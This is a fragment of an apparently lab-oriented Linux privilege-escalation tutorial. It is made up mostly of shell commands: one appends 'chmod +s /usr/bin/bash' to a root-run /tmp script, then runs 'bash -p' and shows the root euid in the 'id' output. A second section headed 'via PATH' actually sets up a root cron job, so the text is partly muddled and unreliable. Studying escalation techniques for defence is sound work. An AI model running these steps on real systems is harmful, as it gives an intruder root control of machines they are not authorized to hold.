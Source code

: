 ```shell
watch -n 1 ls -l /tmp

Ctrl+C
```

Read the `user_security_context.txt` file:

```shell
user@pwn:/tmp$ cat /tmp/user_security_context.txt 
uid=0(root) gid=0(root) groups=0(root)
root
```

Add a `setuid` bit to the bash script:

```shell
echo '#!/bin/bash\nchmod +s /usr/bin/bash' >> /tmp/elevate.sh 
```

Wait one minute until the SUID bit is set to the bash executable:

```shell
watch -n 1 ls -l /usr/bin/bash
```

Then we can bash shell the `setuid` bit as the `root` user by passing the `-p` flag:

```shell
❯ bash -p
```

We can confirm this by using `id`:

```sh
bash-5.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),1000(user)
```

# Privelege Escalation via PATH Environment Variable

Create a script in your home directory that adds an SUID bit to the bash executable:

```shell
#!/bin/bash

sudo chmod +s /usr/bin/bash
```

Add execution permissions to the script:

```sh
chmod +x elevate.sh
```

Create a custom cron job to run the `elevate.sh` script as the root user once every minute:

```shell
sudo vim /etc/cron.d/custom
```

